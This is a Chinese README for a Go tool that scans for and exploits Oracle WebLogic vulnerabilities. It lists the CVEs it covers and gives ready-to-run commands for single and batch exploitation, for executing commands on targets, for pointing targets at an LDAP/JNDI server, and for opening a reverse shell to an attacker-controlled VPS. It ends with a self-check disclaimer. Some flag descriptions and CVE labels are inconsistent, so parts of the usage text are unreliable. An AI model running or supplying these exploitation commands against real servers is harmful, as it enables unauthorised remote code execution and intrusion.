 # 👻WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

# 🐳使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
-f targets.txt
Read the target from the file and test the vulnerabilities in batches
```

+ POC一键检测
```go
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ 批量检测

TXT文件中，一个目标（127.0.0.1:7001，如果没有自带端口则添加默认端口7001）放一行。

```go
WeblogicScanner.exe -f "C:\Users\Test\Desktop\target.txt" -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2023-21839
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 14882

//cve-2020-2883
//cve-2020-2555
//cve-2016-0638
//cve-2016-0315
//cve-2017-3248
//cve-2018-2628
//cve-2018-2893
//cve-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883

//cve-2020-2889
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c -ri <vps_ip> -rp <VPS_PORT> -e 2889
```

# 👮免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# 📷参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839
